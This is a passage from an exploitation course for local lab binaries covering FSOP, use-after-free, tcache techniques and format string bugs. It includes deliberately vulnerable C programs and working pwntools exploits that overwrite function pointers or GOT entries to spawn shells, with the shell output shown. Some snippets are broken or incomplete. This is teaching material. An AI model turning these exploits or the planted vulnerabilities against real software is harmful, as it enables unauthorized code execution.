**Bypass via `_IO_str_jumps` / `_IO_wfile_jumps`**:

The trick is to use **legitimate vtables** but manipulate FILE struct fields to control what gets called:

```text
Attack Strategy (glibc 2.24-2.37):
1. Set vtable to _IO_str_jumps (legitimate, passes check)
2. Manipulate _IO_buf_base, _IO_buf_end, etc.
3. When _IO_str_overflow is called, it does:
   new_buf = malloc(new_size);
   memcpy(new_buf, old_buf, old_size);
   (*(fp->_IO_str_jumps->_free_buffer))(old_buf)  // Call with controlled arg!
4. Forge FILE so _free_buffer call becomes system("/bin/sh")
```

**Why Classic FSOP Fails on Modern glibc** (`fsop_demo.c`):

This demonstrates that direct vtable overwrite **FAILS** on glibc 2.24+ due to `_IO_vtable_check()`:

```c
// ~/exploit/fsop_demo.c
// Demonstrates that classic FSOP FAILS on modern glibc
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win(void) {
    printf("WIN! FSOP triggered!\n");
    system("/bin/sh");
}

int main() {
    printf("=== Classic FSOP Demo (will FAIL on glibc 2.24+) ===\n\n");
    printf("stdout @ %p\n", stdout);
    printf("win @ %p\n", win);

    FILE *fp = stdout;
    printf("Original vtable @ %p\n", *(void**)((char*)fp + 0xd8));

    // Create fake vtable
    void *fake_vtable[30];
    memset(fake_vtable, 0, sizeof(fake_vtable));
    fake_vtable[3] = (void*)win;  // __overflow -> win

    // Try to overwrite vtable pointer
    printf("\nOverwriting vtable with fake @ %p\n", fake_vtable);
    *(void**)((char*)fp + 0xd8) = fake_vtable;

    printf("Triggering fflush... (this will crash!)\n");
    fflush(stdout);  // CRASHES: glibc detects invalid vtable

    printf("If you see this, FSOP worked (glibc < 2.24)\n");
    return 0;
}
```

**Compile and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -fcf-protection=none fsop_demo.c -o fsop_demo
./fsop_demo
```

**Test Results**:

```text
=== Classic FSOP Demo (will FAIL on glibc 2.24+) ===

stdout @ 0x776c6a6045c0
win @ 0x401176
Original vtable @ 0x776c6a602030

Overwriting vtable with fake @ 0x7ffe77115fd0
Fatal error: glibc detected an invalid stdio handle
Aborted
```

**Classic FSOP Failure**:

- `stdout` at `0x776c6a6045c0`, original vtable at `0x776c6a602030` (legitimate)
- Fake vtable on stack at `0x7ffe77115fd0` successfully written
- **glibc aborts**: `_IO_vtable_check()` detects invalid vtable outside legitimate range
- **Proof**: Modern glibc (2.24+) blocks classic FSOP with fake vtables

**Why It Fails**:

```text
glibc 2.24+ added _IO_vtable_check():
- Validates vtable pointer falls within legitimate __libc_IO_vtables section
- Fake vtables on stack/heap are OUTSIDE this range → ABORT

This is why we need:
1. Function pointer overwrite (bypasses FSOP entirely)
2. House of Apple/Water (uses legitimate vtables like _IO_wfile_jumps)
3. Techniques that don't rely on fake vtables
```

**Exploit for fsop_target (Function Pointer Overwrite)**:

Since CET blocks GOT overwrite to system(), we use function pointer overwrite which calls legitimate functions.

Updated target with function pointer (`fsop_target.c`):

```c
// ~/exploit/fsop_target.c
// Vulnerable program with UAF for function pointer overwrite
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char data[32];
    void (*callback)(void);
} Object;

Object *obj = NULL;
char *note = NULL;

void normal_func(void) { printf("Normal callback\n"); }
void win_func(void) { printf("WIN!\n"); system("/bin/sh"); }

void menu() {
    printf("\n1.alloc 2.free 3.write 4.call 5.exit\n> ");
}

int main() {
    char cmd[16];
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    printf("win_func @ %p\n", win_func);

    while (1) {
        menu();
        read(0, cmd, sizeof(cmd));
        switch(cmd[0]) {
            case '1':  // alloc
                obj = malloc(sizeof(Object));
                obj->callback = normal_func;
                printf("Object @ %p\n", obj);
                break;
            case '2':  // free (UAF - keeps dangling pointer!)
                if (obj) {
                    free(obj);
                    printf("Freed (dangling pointer kept!)\n");
                }
                break;
            case '3':  // write - reclaims freed chunk
                note = malloc(sizeof(Object));
                printf("data: ");
                read(0, note, sizeof(Object));
                printf("Note @ %p\n", note);
                break;
            case '4':  // call - triggers UAF
                if (obj) {
                    printf("Calling callback...\n");
                    obj->callback();
                }
                break;
            case '5':
                exit(0);
        }
    }
    return 0;
}
```

**Compile**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -fno-stack-protector fsop_target.c -o fsop_target
```

**Working Exploit** (`exploit_fsop.py`):

```python
#!/usr/bin/env python3

# ~/exploit/exploit_fsop.py
"""
UAF to function pointer overwrite - bypasses CET!
Target: fsop_target
"""
from pwn import *

context.arch = 'amd64'
binary = './fsop_target'
elf = ELF(binary)

def alloc(p):
    p.sendlineafter(b'> ', b'1')

def free_obj(p):
    p.sendlineafter(b'> ', b'2')

def write_note(p, data):
    p.sendlineafter(b'> ', b'3')
    p.sendafter(b'data: ', data)

def call_obj(p):
    p.sendlineafter(b'> ', b'4')

def exploit():
    p = process(binary)

    # Get win function address
    win = elf.symbols['win_func']
    log.info(f"win_func @ {hex(win)}")

    # Step 1: Allocate object with function pointer
    alloc(p)
    log.success("Allocated object")

    # Step 2: Free it (creates dangling pointer)
    free_obj(p)
    log.success("Freed object (dangling pointer)")

    # Step 3: Reclaim with controlled data
    # Object layout: char data[32] + void (*callback)(void)
    payload = b'A' * 32      # Fill data field
    payload += p64(win)      # Overwrite callback with win_func
    write_note(p, payload)
    log.success("Reclaimed chunk with payload")

    # Step 4: Use dangling pointer - calls our win_func!
    log.success("Triggering callback -> win_func -> shell!")
    call_obj(p)

    # Got shell!
    p.interactive()

if __name__ == '__main__':
    exploit()
```

**Compile and Run**:

```bash
gcc -g -O0 -no-pie -fno-stack-protector fsop_target.c -o fsop_target
python3 exploit_fsop.py
```

**Test Results**:

```text
[*] '/home/dev/exploit/fsop_target'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process './fsop_target': pid 2477
[+] win_func @ 0x401230
[*] Allocated object
[*] Freed object (dangling pointer)
[*] Reclaimed chunk with payload
[+] Triggering callback -> win_func -> shell!
[*] Switching to interactive mode
Calling callback...
WIN!
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './fsop_target' (pid 2477)
```

**Exploit Success - CET Bypassed!**:

- **Modern Protections Active**: SHSTK and IBT enabled (CET protection)
- **win_func** at static address `0x401230` (No PIE)
- **UAF Success**: Function pointer overwritten with controlled address
- **CET Bypassed**: Function pointer call is legitimate indirect call, not blocked by IBT
- **Shell Achieved**: `WIN!` message and interactive shell with user privileges

**Why This Works While Classic FSOP Fails**:

```text
Function Pointer Overwrite vs Classic FSOP:

Function Pointer Overwrite (Working):
+ Direct call through object field
+ Legitimate indirect call - CET allows
+ No vtable validation needed
+ Uses existing program functions
+ Bypasses all modern mitigations

Classic FSOP (Failed):
- Fake vtable on stack/heap
- _IO_vtable_check() aborts on invalid vtable
- Requires legitimate vtable section
- Complex house of apple/water needed
- Outdated technique
```

**Key Insight**: On modern systems with CET, **function pointer overwrite** is superior to FSOP because it uses legitimate indirect calls that CET is designed to allow, while FSOP requires bypassing vtable validation.

**Modern Exploitation Decision Tree (glibc 2.39+)**:

```text
Do you have a heap primitive (UAF/overflow)?
├── Yes: Can you control a function pointer in a struct?
│   ├── Yes: Function pointer overwrite → WORKS! (bypasses CET)
│   └── No:  Use House of Water/Tangerine for tcache control
│            → Allocate over struct with function pointer
│            → Overwrite with legitimate function
└── No: Need stronger primitive first

For FSOP specifically (Full RELRO targets):
├── glibc < 2.24: Direct vtable overwrite
├── glibc 2.24-2.37: _IO_str_jumps abuse
├── glibc 2.34-2.38: House of Apple/Emma (wide vtable chain)
└── glibc 2.39+ with CET: Function pointer overwrite preferred
                          (FSOP techniques may fail due to CET)
```

**Technique Compatibility (Updated for CET)**:

| Technique                  | glibc Range | CET Status | Notes                   |
| -------------------------- | ----------- | ---------- | ----------------------- |
| Direct vtable overwrite    | < 2.24      | N/A        | No vtable check         |
| `_IO_str_jumps` abuse      | 2.24-2.37   | N/A        | Patched in 2.38         |
| House of Apple/Emma        | 2.34-2.38   | Blocked    | CET blocks gadget calls |
| Function pointer overwrite | All         | **WORKS**  | Calls real functions    |
| House of Water             | 2.32+       | **WORKS**  | Gets tcache control     |
| House of Tangerine         | 2.27+       | **WORKS**  | No free() needed        |

**Recommended Approach for Modern Systems**:

| Scenario             | Recommended Technique                           |
| -------------------- | ----------------------------------------------- |
| CET enabled (2.39+)  | Function pointer overwrite via UAF/heap corrupt |
| Full RELRO + CET     | House of Water → func ptr overwrite             |
| Partial RELRO no CET | GOT overwrite (simpler)                         |
| Need tcache control  | House of Water or House of Tangerine            |

#### Exercise: Use-After-Free Exploitation

**Create the target** (`uaf_challenge.c`):

```c
// ~/exploit/uaf_challenge.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    void (*greet)(void);
} Person;

void normal_greet() { printf("Hello!\n"); }
void admin_greet() { printf("Admin!\n"); system("/bin/sh"); }

Person *current = NULL;

void create() {
    current = malloc(sizeof(Person));
    strcpy(current->name, "user");
    current->greet = normal_greet;
    printf("Created at %p\n", current);
}

void delete_person() {
    free(current);
    // BUG: current not set to NULL - dangling pointer!
    printf("Deleted\n");
}

void greet() {
    if (current) current->greet();
}

void edit(char *data) {
    // Allocates same size as Person - reclaims freed chunk!
    char *buf = malloc(sizeof(Person));
    memcpy(buf, data, sizeof(Person));
    printf("Edit buffer at %p\n", buf);
}

int main() {
    char cmd[100], data[64];
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Commands: create, delete, greet, edit\n");
    while (fgets(cmd, sizeof(cmd), stdin)) {
        if (strncmp(cmd, "create", 6) == 0) create();
        else if (strncmp(cmd, "delete", 6) == 0) delete_person();
        else if (strncmp(cmd, "greet", 5) == 0) greet();
        else if (strncmp(cmd, "edit ", 5) == 0) {
            fgets(data, sizeof(data), stdin);
            edit(data);
        }
    }
    return 0;
}
```

**Compile**:

```bash
cd ~/exploit
make disabled SOURCE=uaf_challenge.c BINARY=uaf_challenge
#gcc -g -O0 -no-pie -fno-stack-protector -fcf-protection=none uaf_challenge.c -o uaf_challenge
```

**Find `admin_greet` address**:

```bash
objdump -d uaf_challenge | grep admin_greet
```

4. **Write exploit**:

based on what you've learned, write the proper exploit

#### Exercise: Tcache House of Spirit

1. **Compile how2heap tcache_house_of_spirit.c**:

   ```bash
   cd ~/tuts/how2heap
   make v$(ldd --version | head -1 | awk '{print $NF}')
   ./glibc_2.39/tcache_house_of_spirit
   ```

2. **Trace in GDB** to understand the simple requirements:
   - Only need valid size field (no next chunk validation!)
   - Region must be 16-byte aligned
   - Size must be in tcache range (0x20-0x410)

3. **Key observation**: Unlike original House of Spirit, tcache doesn't check next chunk metadata!

#### Exercise: Tcache Poisoning

1. **Compile the tcache_poisoning.c example**:

   ```bash
   gcc -no-pie -g -fcf-protection=none tcache_poison.c -o tcache_poison
   # Or use how2heap:
   ~/tuts/how2heap/glibc_2.39/tcache_poisoning
   ```

2. **Trace execution in GDB**:

   ```bash
   gdb ~/tuts/how2heap/glibc_2.39/tcache_poison
   break main
   run
   # After each malloc/free, run:
   heap
   bins
   ```

3. **Observe tcache state**:
   - Before free: tcache empty
   - After free: chunk in tcache
   - After poisoning: tcache points to target
   - After second malloc: arbitrary address returned

4. **Modify to target a function pointer**:
   - Add a function pointer variable
   - Poison tcache to point to it
   - Overwrite with `system` or win function

#### Exercise: House of Botcake

1. **Run how2heap example**:

   ```bash
   ~/tuts/how2heap/glibc_2.39/house_of_botcake
   ```

2. **Understand the technique**:
   - Fill tcache → chunk goes to unsorted bin
   - Consolidation creates overlapping chunk
   - Free victim to tcache → exists in both bins!
   - Allocate from unsorted → control tcache entry

3. **Key insight**: Bypasses tcache double-free detection via consolidation trick

#### Exercise: Safe-Linking Bypass

1. **Study the protection**:

   ```c
   // Demangling formula
   #define REVEAL_PTR(pos, ptr) \
       ((__typeof__(ptr))((((size_t)(pos)) >> 12) ^ ((size_t)(ptr))))
   ```

2. **Write a heap leak + tcache poison exploit**:
   - First, leak a heap address (via UAF read or other bug)
   - Calculate the XOR key: `heap_addr >> 12`
   - Mangle your target address before writing to tcache
   - Verify with ~/tuts/how2heap/glibc_2.39/tcache_poisoning.c

#### Exercise: Advanced Techniques

1. **Large Bin Attack**:
   - Run `~/tuts/how2heap/glibc_2.39/large_bin_attack`
   - Understand bk_nextsize corruption for arbitrary write

2. **House of Water** (Expert):
   - Study the technique on how2heap wiki
   - Requires understanding of tcache metadata structure

3. **House of Tangerine** (Expert):
   - Run `~/tuts/how2heap/glibc_2.39/house_of_tangerine`
   - Key: Exploits sysmalloc \_int_free without needing free()

**Success Criteria**:

| Task   | Criterion                                        |
| ------ | ------------------------------------------------ |
| Task 1 | UAF exploit hijacks function pointer             |
| Task 2 | Understand tcache House of Spirit simplicity     |
| Task 3 | Tcache poisoning achieves arbitrary write        |
| Task 4 | Can explain House of Botcake consolidation trick |
| Task 5 | Safe-linking bypass works with heap leak         |
| Task 6 | At least one advanced technique understood       |

**Minimum requirement**: Complete Tasks 1-4 with full understanding

### Key Takeaways

1. **Start with UAF patterns**: Understand the core vulnerability before learning exploitation techniques
2. **Tcache House of Spirit is easiest**: No next chunk validation makes it simpler than fastbin variant
3. **House of Botcake is most practical**: Double-free bypass works on all modern glibc (2.29+)
4. **Safe-linking bypass uses chunk address**: XOR key derived from corrupted chunk (chunk_addr >> 12) for glibc 2.32+
5. **Know your glibc version**: Technique selection depends heavily on target version
6. **how2heap/glibc_2.41 is your reference**: Practice techniques in order of difficulty
7. **CET doesn't block heap exploits**: Function pointer/GOT overwrites bypass SHSTK/IBT
8. **Hooks are dead**: `__malloc_hook`/`__free_hook` removed in glibc 2.34+, use GOT or FSOP instead

### Discussion Questions

1. Why is tcache House of Spirit easier than the original fastbin version?
2. How does safe-linking protect against tcache poisoning, and why does it require a heap leak to bypass?
3. What makes House of Botcake the most practical double-free technique for modern glibc?
4. When would you use House of Tangerine over House of Botcake?

## Day 5: Format String Vulnerabilities

- **Goal**: Master format string exploitation techniques.
- **Activities**:
  - _Reading_:
    - [Format String Exploitation](https://seedsecuritylabs.org/Labs_20.04/Files/Format_String/Format_String.pdf)
    - "The Shellcoder's Handbook" - Chapter 4
  - _Online Resources_:
    - [Format String Exploitation Tutorial](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
    - [printf Format Specifiers](https://cplusplus.com/reference/cstdio/printf/)
  - _Tool Setup_:
    - pwntools with FmtStr module
    - GDB with format string helpers
  - _Exercise_:
    - Read arbitrary memory with %x
    - Write arbitrary memory with %n
    - Overwrite GOT entry for exploitation

### Deliverables

- **Binary**: `vuln_fmt` built and verified with `checksec`
- **Offset**: your correct format string offset found (the `%<n>$p` where you see `0x4141414141414141`)
- **Leak**: at least one stable pointer leak (stack/libc) parsed in Python
- **Write**: one working `%n` write (flip a variable or overwrite a GOT entry)
- **Exploit**: a pwntools script that reaches code execution (shell or `win()`)

### Understanding Format Strings

**What is a Format String Bug?**:

- User input passed directly to printf-like function
- Attacker controls format specifiers
- Can read/write arbitrary memory

**Vulnerable Code**:

```c
//~/exploit/vuln_fmt.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    printf("You won!\n");
    system("/bin/sh");
}

int main() {
    char buffer[200];

    // Clear buffer
    memset(buffer, 0, sizeof(buffer));

    // Read from stdin to allow null bytes in payload
    // use read() to avoid stopping at null bytes or newlines prematurely
    read(0, buffer, sizeof(buffer)-1);

    // VULNERABLE: user-controlled buffer used as format string!
    printf(buffer);

    exit(0);
}
```

### Format String Basics

**Common Format Specifiers**:

| Specifier    | Description             | Stack Effect (AMD64)             |
| ------------ | ----------------------- | -------------------------------- |
| `%d`         | Print int               | Reads from register/stack        |
| `%x`         | Print hex (32-bit)      | Reads 4 bytes, zero-extended     |
| `%lx`        | Print hex (64-bit)      | Reads full 8 bytes               |
| `%s`         | Print string            | Reads pointer, dereferences      |
| `%n`         | Write byte count        | Writes to pointer                |
| `%p`         | Print pointer (BEST!)   | Shows full 64-bit pointer as hex |
| `%<number>$` | Direct parameter access | Access specific position         |

> [!IMPORTANT]
> **On AMD64, always use `%p` for leaking!** It prints the full 64-bit value in hex
> format (0x7fff...). Using `%x` only shows 32 bits and can confuse beginners.

**AMD64 Format String Parameter Passing**:

On AMD64, the first 6 printf arguments after the format string come from registers:

- Position 1-6: RDI (fmt), RSI, RDX, RCX, R8, R9
- Position 7+: Stack

This means your buffer typically appears at offset **6 or higher** on AMD64!

**Reading Stack**:

```bash

# Compile vulnerable program (AMD64, no -m32!)
make format-sec SOURCE=vuln_fmt.c BINARY=vuln_fmt
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wno-format-security vuln_fmt.c -o vuln_fmt

# Direct parameter access - note: offset changes with format string length!
echo '%6$p' | ./vuln_fmt   # 0xa70243625 (format string itself!)
echo '%1$p' | ./vuln_fmt   # 0x7ffdca13b4b0 (stack addr)

# Output: AAAAAAAA0x4141414141414141  ← Input found at offset 6!
```

**Stack Reading Success**:

- Input buffer found at **offset 6** (confirmed with `0x4141414141414141`)
- `%6$p` shows format string pointer `0xa70243625`
- `%1$p` shows stack address `0x7ffdca13b4b0`
- **Key**: On AMD64, input typically appears at offset 6+ due to register passing

# ~/exploit/fmt_leak.py
"""
Format string exploit to leak stack values (AMD64)
"""
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
context.binary = elf

def leak_stack(offset):
    """Leak value at stack offset"""
    # Use padding to keep format string length consistent
    payload = f'AAAAAAAA%{offset}$p'.encode()
    p = process(binary)
    p.send(payload)
    output = p.recvall()
    p.close()
    return output

# Scan for our input (0x4141414141414141)
log.info("Scanning stack offsets...")
for i in range(1, 10):
    result = leak_stack(i)
    decoded = result.decode().strip()
    marker = "<<<" if "4141414141414141" in decoded else ""
    print(f"Offset {i:2d}: {decoded} {marker}")

# On this system, input is at offset 6
```

**Run**:

```bash
cd ~/exploit
python3 fmt_leak.py
```

**Test Results**:

```text
[*] Scanning stack offsets...
...
Offset  5: AAAAAAAA0x796604c9a380
[+] Starting local process './vuln_fmt': pid 2583
[+] Receiving all data: Done (26B)
[*] Process './vuln_fmt' stopped with exit code 0 (pid 2583)
Offset  6: AAAAAAAA0x4141414141414141 <<<
[+] Starting local process './vuln_fmt': pid 2586
[+] Receiving all data: Done (18B)
[*] Process './vuln_fmt' stopped with exit code 0 (pid 2586)
Offset  7: AAAAAAAA0x70243725
[+] Starting local process './vuln_fmt': pid 2589
[+] Receiving all data: Done (13B)
[*] Process './vuln_fmt' stopped with exit code 0 (pid 2589)
...
```

**Stack Scanning Success**:

- **Input confirmed at offset 6**: `0x4141414141414141` marker found
- **Various stack values leaked**: Stack addresses, libc pointers, NULL values
- **Consistent results**: Each offset returns predictable values
- **Process management**: Each scan spawns new process to avoid state corruption

**Finding Your Input Offset (Quick Method)**:

```python
#!/usr/bin/env python3
#~/exploit/fmt_find_offset.py

# ~/exploit/fmt_find_offset.py
from pwn import *

binary = './vuln_fmt'
context.log_level = 'error'

# Scan with consistent padding
for i in range(1, 20):
    payload = f'AAAAAAAA%{i}$p'.encode()
    p = process(binary)
    p.send(payload)
    out = p.recvall().decode()
    p.close()
    if '4141414141414141' in out:
        print(f"[+] Input found at offset {i}")
        print(f"    Payload: AAAAAAAA%{i}$p")
        break
else:
    print("[-] Not found in first 20 offsets")
```

**Result**: On this system, input buffer is at **offset 6**.

### Arbitrary Memory Read (AMD64)

**Reading Memory at Address**:

On AMD64, addresses are 8 bytes and may contain null bytes (0x00004...).
Null bytes terminate strings, so we put the address AFTER the format specifier!

```c
// Want to read memory at 0x00000000004011b6 (main)
// Problem: Address has leading zeros = null bytes!

// Solution: Put address at END of format string
// "%9$sAAAAAAAA" + p64(addr)
// The AAAAAAAA aligns to 8 bytes, then address follows
```

### The 64-bit Null Byte Problem (Manual Payload Construction)

`fmtstr_payload` is magic, but you must understand _why_ 64-bit writes are painful.

**The Issue**: 64-bit addresses (e.g., `0x00007fffffffe000`) contain null bytes at the start (little endian: `00 e0 ff ...`).
If you put the address at the _start_ of your payload (like in 32-bit exploits), `printf` reads the null bytes and stops processing the rest of the string immediately.

**The Solution**: Place the target address at the **very end** of the payload.

1.  **Calculate Offset**: Determine how many 8-byte blocks it takes to reach the end of your format string.
2.  **Argument Ordering**: Use `%<offset>$n` to tell printf to skip ahead to that end-block where the address lives.

```python

# 4. Pad length to align address to 8-byte boundary
final_pad = b"B" * (64 - len(pad+fmt+trigger))

# 5. The Address (with null bytes) comes LAST
addr = p64(0x7fffffffe010)
payload = pad + fmt + trigger + final_pad + addr +
```

**Example**:

```python
#!/usr/bin/env python3
#~/exploit/21.py
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
context.binary = elf

def send_payload(payload_bytes):
    """Helper to send payload with null bytes"""
    p = process(binary)
    p.send(payload_bytes)
    output = p.recvall()
    p.close()
    return output

# Step 1: Find payload offset
log.info("Step 1: Finding payload offset on stack")

payload_offset = 0
for test_offset in range(1, 20):
    payload = b"AAAAAAAA" + f"%{test_offset}$p".encode()
    result = send_payload(payload)
    output = result.decode('utf-8', errors='ignore')

    if '0x4141414141414141' in output:
        log.success(f"Payload lands at offset {test_offset}")
        payload_offset = test_offset
        break
else:
    log.error("Could not find payload offset")
    exit(1)

# Note: You must calculate the offset constant yourself by debugging!
libc_offset_constant = 0x2a1ca

payload = f"%{libc_leak_offset}$p".encode()
result = send_payload(payload)
output = result.decode('utf-8', errors='ignore').strip()

if '0x' in output:
    try:
        # Output might be "0x7f..." or similar
        leak_str = output.split('0x')[1].split()[0]
        leak_addr = int(leak_str, 16)
        log.info(f"Leaked address at offset {libc_leak_offset}: {hex(leak_addr)}")

        libc_base = leak_addr - libc_offset_constant
        log.success(f"Calculated Libc Base: {hex(libc_base)}")

        if libc_base & 0xfff == 0:
            log.success("Libc base is page-aligned! Looks good.")
        else:
            log.warning("Libc base is NOT page-aligned - might be wrong offset")
    except (ValueError, IndexError) as e:
        log.error(f"Failed to parse leaked address: {e}")
        log.error(f"Raw output: {output}")
        exit(1)
else:
    log.error("No address leaked - check offset")
    exit(1)
```

### Arbitrary Memory Write (AMD64)

**The %n Specifier (64-bit considerations)**:

- `%n` writes 4 bytes (int) - often enough!
- `%ln` writes 8 bytes (long) - full 64-bit
- `%hn` writes 2 bytes (short)
- `%hhn` writes 1 byte (char) - most precise

For AMD64 addresses (0x7fff...), use `%hhn` to write byte-by-byte,
or `%hn` to write 2 bytes at a time. Full 8-byte writes are rarely practical.

**Writing with pwntools (Recommended)**:

```python
#!/usr/bin/env python3
#~/exploit/22.py
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
context.binary = elf  # CRITICAL: Sets amd64!

# pwntools fmtstr_payload handles all the complexity
target = elf.got['exit']  # Example: overwrite exit@GOT
value = elf.symbols['win']  # Redirect to win()

# Find format string offset first (see next section)
offset = 6  # Offset 6 (stdin based)

# Generate payload automatically
payload = fmtstr_payload(offset, {target: value})
log.info(f"Payload length: {len(payload)}")

# Send payload via stdin to allow null bytes
p = process(binary)
p.send(payload)
p.recvuntil(b"You won!") # Verify win
p.interactive()
```

**Test Results**:

```text
[*] Payload length: 64
[+] Starting local process './vuln_fmt': pid 2626
[*] Switching to interactive mode

$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './vuln_fmt' (pid 2626)
```

**GOT Overwrite Success**:

- **Payload generated**: 64 bytes using `fmtstr_payload`
- **exit@GOT overwritten**: Redirected to `win()` function
- **Shell achieved**: Interactive shell with user privileges
- **pwntools magic**: Automatic handling of 64-bit address alignment and null bytes

### GOT Overwrite Attack (AMD64)

**Global Offset Table (GOT)**:

- Stores addresses of dynamically linked functions
- Writable by default (Partial RELRO)
- Overwriting GOT entry redirects function calls

**Exploit Strategy**:

1. Find GOT entry for common function (printf, exit, etc.)
2. Use format string to leak libc address (defeat ASLR)
3. Use format string to overwrite GOT entry
4. Point GOT entry to `system` or `one_gadget`
5. Trigger function call → shell!

**Example Program** (fmt_got.c):

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void win() {
    printf("You win!\n");
    system("/bin/sh");
}

int main() {
    char buffer[200];
    memset(buffer, 0, sizeof(buffer));

    // Read from stdin to allow null bytes
    read(0, buffer, sizeof(buffer)-1);

    // Format string vulnerability
    printf(buffer);
    printf("\n");

    // Call exit (GOT entry target)
    exit(0);
}
```

**Compile (AMD64)**:

```bash
make format-sec SOURCE=fmt_got.c BINARY=fmt_got
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wno-format-security fmt_got.c -o fmt_got
```

**Exploit (AMD64)**:

```python
#!/usr/bin/env python3
#~/exploit/23.py
from pwn import *

binary = './fmt_got'
elf = ELF(binary)
context.binary = elf  # Sets amd64 automatically!

# Find addresses
win_addr = elf.symbols['win']
exit_got = elf.got['exit']

log.info(f"win() @ {hex(win_addr)}")
log.info(f"exit@GOT @ {hex(exit_got)}")

# Step 1: Find format string offset
def send_payload(payload):
    p = process(binary)
    p.send(payload)
    output = p.recvall()
    p.close()
    return output

# Manual offset finding
for i in range(1, 10):
    result = send_payload(f"%{i}$p".encode())
    log.info(f"Offset {i}: {result}")

# Step 2: Use fmtstr_payload (handles AMD64 complexity!)
offset = 6  # ADJUST BASED ON YOUR TESTING!

payload = fmtstr_payload(offset, {exit_got: win_addr})
log.info(f"Payload: {payload[:50]}...")

p = process(binary)
p.send(payload)
p.interactive()
```

**Test Results**:

```text
[*] win() @ 0x401186
[*] exit@GOT @ 0x404030
[*] Payload: b'%134c%11$lln%139c%12$hhn%47c%13$hhnaaaab0@@\x00\x00\x00\x00\x001@'...
[+] Starting local process './fmt_got': pid 2682
[*] Switching to interactive mode
You win!
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './fmt_got' (pid 2682)
```

**Manual GOT Overwrite Success**:

- **Addresses found**: `win()` at `0x401186`, `exit@GOT` at `0x404030`
- **Offset scanning**: Tested offsets 1-9, format string found at various positions
- **Payload generated**: Complex multi-byte write using `%lln`, `%hhn` specifiers
- **GOT overwritten**: `exit@GOT` redirected to `win()` function
- **Shell achieved**: "You win!" message and interactive shell

**Using pwntools FmtStr Class (Automated)**:

```python
#!/usr/bin/env python3
#~/exploit/24.py
from pwn import *

binary = './fmt_got'
elf = ELF(binary)
context.binary = elf

def oracle(payload):
    """Execute format string and return output"""
    # Use stdin for payload to allow null bytes (AMD64)
    p = process(binary)
    p.send(payload)
    output = p.recvall()
    p.close()
    return output

# We tell it we control the first argument (index 0) of the printf call (handled by oracle)
autofmt = FmtStr(execute_fmt=oracle)
log.info(f"Auto-detected offset: {autofmt.offset}")

# For interactive shell, send manually:
payload = fmtstr_payload(autofmt.offset, {elf.got['exit']: elf.symbols['win']})
p = process(binary)
p.send(payload)
p.interactive()
```

**Test Results**:

```text
[*] Process './fmt_got' stopped with exit code 0 (pid 2708)
[+] Found format string offset: 6
[*] Auto-detected offset: 6
[+] Starting local process './fmt_got': pid 2711
[*] Switching to interactive mode
You win!
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './fmt_got' (pid 2711)
```

**Automated FmtStr Success**:

- **Auto-detection**: FmtStr automatically found format string offset 6
- **Multiple processes**: Used oracle function to test different payloads
- **Payload generation**: Automatic creation of format string payload
- **GOT overwrite**: Successfully redirected `exit@GOT` to `win()` function
- **Shell achieved**: "You win!" message and interactive shell
- **pwntools power**: Automated offset finding and payload generation

### Automated Exploitation with pwntools (AMD64)

**Using FmtStr Module**:

```python
#!/usr/bin/env python3
#~/exploit/25.py
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
context.binary = elf  # CRITICAL for AMD64!

# Define oracle function - how to send payload and get output
def send_fmt(payload):
    # Use stdin for payload to allow null bytes
    p = process(binary)
    p.send(payload)
    output = p.recvall()
    p.close()
    return output

# We tell it we control the first argument (index 0) of the printf call (handled by oracle)
fmt = FmtStr(execute_fmt=send_fmt)
log.info(f"Detected offset: {fmt.offset}")

# Queue writes (can write multiple!)
target = elf.got['exit']
value = elf.symbols['win']
fmt.write(target, value)

# Execute all queued writes
fmt.execute_writes()
```

**Test Results**:

```text
...
[*] Process './vuln_fmt' stopped with exit code 0 (pid 2736)
[*] Found format string offset: 6
[*] Detected offset: 6
[+] Starting local process './vuln_fmt': pid 2739
[-] Receiving all data: Failed
Traceback (most recent call last):
...
KeyboardInterrupt
[*] Stopped process './vuln_fmt' (pid 2739)
```

**FmtStr.execute_writes() Issue**:

- **Offset detection worked**: Found format string at offset 6
- **Problem**: `execute_writes()` hangs because successful GOT overwrite redirects `exit()` to `win()`, but `win()` doesn't exit the program
- **Root cause**: After GOT overwrite, program calls `win()` and waits for input, but `recvall()` expects program to exit
- **Solution**: Use `fmtstr_payload()` directly instead of `execute_writes()` for interactive shells

**Manual fmtstr_payload (More Control)**:

```python
#!/usr/bin/env python3
#~/exploit/26.py
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
context.binary = elf

# Generate optimized payload
payload = fmtstr_payload(
    offset,
    {elf.got['exit']: elf.symbols['win']},
